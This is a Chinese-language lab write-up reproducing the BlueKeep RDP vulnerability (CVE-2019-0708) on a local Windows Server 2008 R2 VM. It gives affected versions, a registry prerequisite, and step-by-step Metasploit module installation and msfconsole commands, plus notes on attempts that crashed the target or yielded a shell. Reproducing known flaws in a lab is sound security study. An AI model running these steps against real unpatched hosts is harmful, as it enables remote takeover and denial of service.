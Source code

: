 # 0x00 软件介绍
Windows RDP：Windows下自带的一款远程桌面服务

# 0x01 复现环境
使用环境：本地搭建的环境  
复现版本：2008_r2_standard_zh-chs

# 0x02 环境搭建
靶机环境：2008_r2_standard_zh-chs

前提条件：  
2008_r2_standard_zh-chs修改注册表值项HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\Terminal Server\WinStations\RDP-Tcp\fDisableCam的值为1  
（有的文章指出要修改的注册表值项为HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\Terminal\Server\WinStations\rdpwd\fDisableCam，但我的系统没有值项rdpwd，而在项RDP-Tcp下有值项fDisableCam）

# 0x03 利用条件
Windows Server 2008 R2需要修改注册表  
Windows Server 2008（还没尝试，但应该和Windows Server 2008 R2一样）  
Windows 7无利用条件

# 0x04 影响版本
Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)  
Windows Server 2008 R2 for x64-based Systems Service Pack 1  
Windows Server 2008 R2 for Itanium-Based Systems Service Pack 1  
Windows Server 2008 for x64-based Systems Service Pack 2 (Server Core installation)  
Windows Server 2008 for x64-based Systems Service Pack 2  
Windows Server 2008 for Itanium-Based Systems Service Pack 2  
Windows Server 2008 for 32-bit Systems Service Pack 2 (Server Core installation)  
Windows Server 2008 for 32-bit Systems Service Pack 2  
Windows 7 for x64-based Systems Service Pack 1  
Windows 7 for 32-bit Systems Service Pack 1

# 0x05 漏洞复现
攻击环境：kali_x64_en-us

将如下3个文件替换msf中默认的文件  
cp ./rdp.rb /usr/share/metasploit-framework/lib/msf/core/exploit/  
cp ./rdp_scanner.rb /usr/share/metasploit-framework/modules/auxiliary/scanner/rdp/（有的文章中给出的目录是/usr/share/metasploit-framework/modules/auxiliary/scanner/，我想应该是少写了rdp/）  
cp ./cve_2019_0708_bluekeep.rb /usr/share/metasploit-framework/modules/auxiliary/scanner/rdp/  
将如下1个文件添加到msf中  
cp ./cve_2019_0708_bluekeep_rce.rb /usr/share/metasploit-framework/modules/exploits/windows/rdp/  
监听meterpreter：  
msfconsole  
search 0708  
use windows/rdp/cve_2019_0708_bluekeep_rce  
set RHOSTS 192.168.149.130  
run  
选择目标为3（vmware）

共尝试了4次：  
第一次没修改注册表，系统蓝屏  
第二次修改注册表后，成功拿到shell  
第三次修改注册表后，系统蓝屏  
第四次修改注册表后，报错Connection reset by peer  
结论，08 r2需要修改注册表，而且利用不稳定

# 0x06 踩坑记录
坑0：Exploit aborted due to failure: bad-config: Set the most appropriate target manually  
表示需要设置对应的目标  
坑1：Exploit failed: NameError undefined local variable or method  
需要额外修改三个文件  
坑2：Exploit failed [disconnected]: Errno::ECONNRESET Connection reset by peer  
未知  

# 0x07 参考链接
https://github.com/rapid7/metasploit-framework/pull/12283  
http://blog.xkkhh.cn/archives/535
